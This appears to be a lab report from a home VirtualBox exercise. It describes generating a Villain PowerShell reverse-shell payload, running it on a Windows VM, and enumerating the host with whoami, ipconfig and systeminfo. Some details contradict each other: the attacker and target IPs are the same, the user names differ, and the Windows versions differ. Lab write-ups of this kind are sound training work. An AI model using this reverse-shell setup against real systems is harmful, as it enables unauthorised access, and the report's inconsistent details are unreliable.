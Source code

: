 # 🐚 Villain Framework Reverse Shell Report

## ⚙️ Setup Info
- **Payload:** `windows/reverse_tcp/powershell`
- **LHOST:** `192.168.56.101`
- **LPORT:** `65001`

## 🔁 Payload Delivery Method
The payload was generated in Villain using the command:
generate os=windows lhost=eth1

It was then copied and executed in PowerShell on the Windows 10 target VM (running on the same internal VirtualBox network as the Kali attacker VM).

## 🖥️ Captured Info
- **Hostname:** `ABHISHEKPC`
- **IP Address:** `192.168.56.101`
- **User:** `abhis`

## 📸 Screenshots
1. Villain access Screenshot
![](<Screenshot1.png>)
2. Payload generation in linux
![](<Screenshot3.png>)
3. Payload testing in windows
![](<Screenshot4.png>)
4. Executing Commands
![](Screenshot2.png)
![](Screenshot5.png)
![](Screenshot6.png)
![](Screenshot7.png)
![](Screenshot8.png)
![](Screenshot9.png)
![](Screenshot10.png)

## 🔎 Enumeration Performed
whoami
ipconfig
systeminfo

# Checking current user
whoami
# Output: Ashutosh Dash

# Checking network configuration
ipconfig
# Output: IPv4 Address. . . . . . . . . . . : 192.168.56.101

# Gathering system information
systeminfo
# Output: Hostname: ABHISHEKPC
# OS Name: Microsoft Windows 11 Home Single Language 
# OS Version: 10.0.26100 N/A Build 26100 
